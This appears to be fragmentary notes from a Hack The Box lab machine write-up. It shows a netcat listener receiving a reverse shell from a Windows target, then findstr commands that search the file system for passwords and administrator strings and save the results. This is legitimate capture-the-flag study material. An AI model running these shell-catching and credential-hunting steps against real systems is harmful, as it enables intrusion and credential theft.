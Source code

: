 #10.10.11.10 - SERVICE






`sudo lsof -i :<port>`
`kill -9` <pid of that listening local port>

PS C:\> findstr /l /s /i password > c:\users\sqladmin\downloads\password.txt

<code>
komal@kali:~/Documents/htb/service$ sudo nc -lvnp 4343
listening on [any] 4343 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.10] 49718
Microsoft Windows [Version 10.0.17763.1158]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd /
cd /

C:\>findstr /s /i administrator *.* > c:\users\sqladmin\downloads\admin.txt
findstr /s /i administrator *.* > c:\users\sqladmin\downloads\admin.txt

</code>
